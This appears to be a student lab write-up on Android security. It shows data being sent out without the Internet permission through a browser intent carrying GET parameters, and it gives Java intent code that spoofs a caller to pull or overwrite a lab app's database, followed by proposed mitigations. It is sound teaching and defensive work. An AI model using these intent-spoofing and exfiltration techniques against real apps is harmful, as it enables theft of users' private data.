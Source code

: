 # 1 - No-permission apps

In this part, we will exfiltrate some data to a server, without using
the `Internet` permission.

First, we need to setup a web server. Here, it is a localhost server
running on port 3001, so its address is `10.0.2.2:3001` on the emulated
device.

Then, we populate the database on the app:

![Database content](./assets/database_content_p1.png)

When we want to exfiltrate the data, we just have to create an intent to
open our server webpage with GET parameters, like
`http://10.0.2.2:3001/?secret1=abc&secret2=def`.

In our example, the server received this:

![Server request](./assets/server_request_p1.png)

On android and iOS, apps are sandboxed and heavily restricted, as
opposed to desktop apps. If an app wants to access a private resource
(camera, location, etc), it needs to be explicitely allowed to do so by
the OS and the user. The goal is to make these apps as secure and as
privacy-aware as possible. While on desktop a simple Tetris has read and
write access to all user files, on android even a vulnerable app is
limited in its action. it also hints on illegitimate apps; for examle,
the flashlight app shouldn't require microphone access.

However, here our application uses a simple trick to bypass this
permission system. It will open the web browser on a specific page, and
while it usually is quite innocent since the webpage cannot talk back to
the app, it is enough to leak informations using GET parameters. It
should be noted however that, first, the data accessible is only our own
data, which limits the damages possible, and that this method isn't very
discreet, as the user clearly sees its browser opening.

# 2 - Malicious intents

In the MACLocation app, the `DatabaseActivity.onCreate` method will, as
its name suggests, create the app. It will look at the caller intent and
act differently depending on its action. Here, if the field
`"ITEM_ACTION"` is set to `"GET_ITEMS_ACTION"`, it will retrieve all
database content and send it back to the caller.

The problem is that if a third-party app opens this activity with the
right action, the activity won't check which app the intent is coming
from and will exfiltrate all its database to the external app through
the result intent.

The intent code is the following one:

```java
// Activity intent
Intent i = new Intent(Intent.ACTION_MAIN);
// Explicitely set the component that will receive the intent
i.setComponent(new ComponentName(
    "lbs.lab.maclocation", // Target package
    "lbs.lab.maclocation.DatabaseActivity" // Target activity
));
// MIME data type, equal to `DatabaseActivity.class.getCanonicalName()`
//  Used to trick the DatabaseActivity condition
i.setType("lbs.lab.maclocation.DatabaseActivity");
// Action, here fetch all data, but could also be SET_ITEMS_ACTION to
//  override the database content
i.putExtra(ITEM_ACTION, GET_ITEMS_ACTION);
```

There are currently a few checks in `DatabaseActivity`:
- The MIME data type should be set to
`"lbs.lab.maclocation.DatabaseActivity"`, which is easy to set
- The `"ITEM_ACTION"` field should be set to `"GET_ITEMS_ACTION"`, again
we could guess it using the source code or a decompiler
- The caller activity should be named `MainActivity`, easy to spoof

This last check is the one which should be changed. Instead of checking
the value of `getShortClassName()` to compare the activity names, it
should use `getClassName()`, that will differentiate
`lbs.lab.maclocation.MainActivity` and `lbs.lab.macintent.MainActivity`.

Finally, once the data retrieved, we need to deserialize it by creating
our own implementation of `lbs.lab.maclocation.Item`, and then
exfiltrate it like we did previously in the first part.

# 3 - Protections and mitigations

There could be several ways to protect against these threats, on several
levels.

## 3.1 - Against permission escape: part 1

First, the permissions could be implemented per intent, not per app. If
an app A calls an app B, and B has the internet permission but not A, A
is still able to access internet through B. However, a defense would be
for the intent from A to B to require some kind of permission, which
would force A to declare the internet permission. This would still be
pretty challenging though, as we need to be sure which permissions are
used, otherwise if B suddently adds the camera permission it would break
A even though it doesn't use it.

## 3.2 - Against data leak: part 2

A way to avoid data leak would be to somehow track the data from B to A.
If the data of B is leaked back to A without a kind of approval, then
the data would be made unusable by the system. This is still a rough
idea though, as this would probably lead to many challenge to face.

Maybe we could also rank the data importance, like the information flow
security lectures we had. A high (important) app would only be able to
share its data to other high apps, and low apps would not be able to
fetch this high data. Or, to continue with data tracking, low apps could
be allowed as long as there isn't an information flow from high data to
low data, ie the data use would be severely restricted.

Intents should also use a kind of signature, to avoid spoofing its
origin. This is already something that can - and should - be done, but
the Android kernel should go even further. What we saw earlier is that
to deserialize the data fetched we needed to create our own
implementation of the data object. This shouldn't be allowed, and a
serialized object should only be deserializable by the implementation
in its own app, not by any third-party app, even if the implementation
is the same.
